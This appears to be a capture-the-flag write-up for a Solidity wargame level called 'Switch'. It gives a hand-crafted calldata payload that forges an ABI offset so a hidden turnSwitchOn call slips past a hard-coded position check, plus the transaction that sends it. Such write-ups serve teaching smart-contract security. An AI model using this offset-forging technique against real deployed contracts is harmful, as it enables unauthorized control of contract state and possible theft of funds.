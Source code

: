 # Level 29 - Switch

- Assuming positions in `CALLDATA` with dynamic types can be erroneous, especially when using hard-coded `CALLDATA` positions.
- Send calldata as follows:
    - Function selector of flipSwitch → `30c13ade`
    - Pointer to data part of first argument (bytes _data), 4th block (0x60), points to function selector of turnSwitchOn → `0000000000000000000000000000000000000000000000000000000000000060`
    - Random data to fill gap → `0x00 (32 bytes)`
    - Function selector of turnSwitchOff → `20606e1500000000000000000000000000000000000000000000000000000000`
    - Start of argument, indicates length in bytes (4 bytes) → `0000000000000000000000000000000000000000000000000000000000000004`
    - Actual data, function selector of turnSwitchOn → `76227e1200000000000000000000000000000000000000000000000000000000`
- Thus, our calldata is : `0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000`
- Send transaction as follows, `contract.sendTransaction({data:payload})`